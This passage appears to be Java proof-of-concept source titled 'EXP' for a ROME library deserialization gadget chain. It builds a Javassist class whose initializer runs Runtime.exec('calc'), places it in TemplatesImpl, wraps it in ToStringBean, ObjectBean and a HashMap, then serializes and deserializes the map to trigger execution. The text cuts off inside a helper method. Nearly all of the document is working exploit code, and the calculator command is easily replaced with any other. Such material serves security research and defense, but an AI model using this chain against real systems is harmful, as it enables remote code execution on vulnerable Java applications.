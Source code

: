 ### EXP

```plain
package RomeSec;

import com.sun.syndication.feed.impl.ObjectBean;
import com.sun.syndication.feed.impl.ToStringBean;
import javassist.ClassPool;
import javassist.CtClass;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;

public class ObjectBeanExp {
    public static void main(String[] args) throws Exception {
        String AbstractTranslet="com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet";
        String TemplatesImpl="com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";

        // 创建恶意类
        ClassPool classPool = ClassPool.getDefault();
        classPool.appendClassPath(AbstractTranslet);
        CtClass payload = classPool.makeClass("dddd");
        payload.setSuperclass(classPool.get(AbstractTranslet));
        payload.makeClassInitializer().setBody("java.lang.Runtime.getRuntime().exec(\"calc\");");
        byte[] bytes = payload.toBytecode();

        // 创建TemplatesImpl对象
        Object templateImpl = Class.forName(TemplatesImpl).getDeclaredConstructor(new Class[]{}).newInstance();
        setFiled(templateImpl, "_bytecodes", new byte[][]{bytes});
        setFiled(templateImpl, "_name", "test");
        setFiled(templateImpl, "_tfactory", null);

        // 创建ToStringBean对象
        ToStringBean toStringBean = new ToStringBean(Templates.class, templateImpl);
        // 创建ObjectBean对象
        ObjectBean objectBean = new ObjectBean(ToStringBean.class, toStringBean);
        setFiled(objectBean,"_toStringBean", null);
        setFiled(objectBean, "_cloneableBean", null);

        // 创建hashMap
        HashMap<Object, Object> hashMap = new HashMap<>();
        hashMap.put(objectBean, "aaaa");

        // 序列化
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(new FileOutputStream("ObjectBean.bin"));
        objectOutputStream.writeObject(hashMap);
        objectOutputStream.close();

        // 反序列化
        ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream("ObjectBean.bin"));
        objectInputStream.readObject();
        objectInputStream.close();
    }

    public static void setFiled(Object o, String fieldname, Object value) throws Exception {
        Field field = o.getClass().getDeclaredField(fieldname);
        field.setAccessible(true);
        field.set(o, value);
```